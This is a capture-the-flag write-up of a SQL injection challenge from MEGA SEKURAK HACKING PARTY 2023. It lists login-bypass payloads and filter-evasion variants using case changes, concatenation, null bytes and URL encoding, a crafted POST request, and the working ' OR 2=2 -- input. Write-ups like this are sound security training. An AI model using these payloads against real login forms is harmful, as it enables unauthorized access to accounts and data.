 # MSHP 2023 - [2] login inject0r

**CTF Name:** MEGA SEKURAK HACKING PARTY 2023
**Challenge name:** [2] login inject0r
**Challenge description:**
> Do you remember the good 0l' days where noone knew about UNION SELECT or TIME statements? Get back to r00ts with this twisted easy SQL injection.
> UPDATE:
> ' OR 1=1 --i? WTF Adam?

**Challenge URL:** http://ctf.securitum.ninja/ctf2/
**Challenge category:** websec/sqlinj
**Challenge points:** 100

* * *

## Steps to solve
Website that we were presented with was basically login form on black background, with green text "The Secure Vault of SQL" on the left.

However, the source code was much more interesting. In the login form code, there were two comments specified for Adam (website developer) to notice. Guiding us towards *SQL injection attack*:
![website_inspector.png](../_resources/website_inspector.png)

> My thought at the time:
> Did Adam disable whole string as it was presented, or did he use filters to disable arguments like: OR, equalization, sql comments (--)?

Indeed providing **' OR 1=1 --'** did not work, and resulted in the following error:
![error_one_one.png](../_resources/error_one_one.png)
That hint made me think I should use odd numbers (which later turned out to be false).

Whatever Adam did, I procedeed to craft payloads in the most various ways possible - making sure they differ the most from **' OR 1=1 --'**. Changing case of letters in **OR** was obvious for me (maybe applied filter will not recognise the operation):
```
Basic SQL injection:
' oR 3333=3333 --'
' oR 3333=3333 --
' oR 3333=3333; --'
' oR 3333=3333; --

SQL concatenation:
' o' + 'R 3333=3333 --'
' o' + 'R 3333=3333 --
' o' + 'R 3333=3333; --'
' o' + 'R 3333=3333; --
' o' || 'R 3333=3333 --'
' o' || 'R 3333=3333 --
' o' || 'R 3333=3333; --'
' o' || 'R 3333=3333; --

SQL null-byte injection:
' o[%00]R 3333=3333 --'
' o[%00]R 3333=3333 --
' o[%00]R 3333=3333; --'
' o[%00]R 3333=3333; --

URL encoding:
%27%20oR%203333%3D3333%20--%27		#' oR 3333=3333 --'
%27%20oR%203333%3D3333%20--		#' oR 3333=3333 --
%27%20oR%203333%3D3333%3B%20--%27	#' oR 3333=3333; --'
%27%20oR%203333%3D3333%3B%20--		#' oR 3333=3333; --
etc.
```

To test them quicker than manually, I repeated originating POST request with changed username and password parameters, for example:
```http
POST /ctf2/ HTTP/1.1
Host: ctf.securitum.ninja
Content-Length: 30
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://ctf.securitum.ninja
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://ctf.securitum.ninja/ctf2/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username='+oR+3333=3333+--'&password='+oR+3333=3333+--'
```

Nothing worked! I tried *sqlmap*, but it also failed.

I asked about this issue on *MSHP Discord server*, and fellow helper guided me towards checking even numbers.
I tested all previous payloads with **4444=4444**, but it still didn't work!

At the end I was already tired of sitting, but I gave a chance testing various combinations with **2=2**... and bam!
```
' OR 2=2 --
```
it worked! there I was, greeted with flag in front of my eyes (kind of):
![flag_msg.png](../_resources/flag_msg.png)

```
Welcome, hacker! Your flag is: }1#7m+UvR8Wr*g6@{_PHSM
```

Also, worth mentioning is the fact that this *SQL injection attack* worked for **both** parameters **username** and **password**, which means that the conditional statement in SQL formula is the same for them.

Last step to retrieve the flag was reversing the string in python:
```python
preflag = "}1#7m+UvR8Wr*g6@{_PHSM"
flag = preflag[::-1]
print(flag)
```

```shell
$ python3 flag.py
MSHP_{@6g*rW8RvU+m7#1}
```

**FLAG:** MSHP_{@6g*rW8RvU+m7#1}

## Additional comments
This challenge took the most time from me in this whole competition, and I wasn't happy with the fact that the **ONLY** two working payloads were: **' OR 2=2 --'** and **' OR 2=2 --**
It was a major issue for me, because my payloads were based on different case **oR/or**.
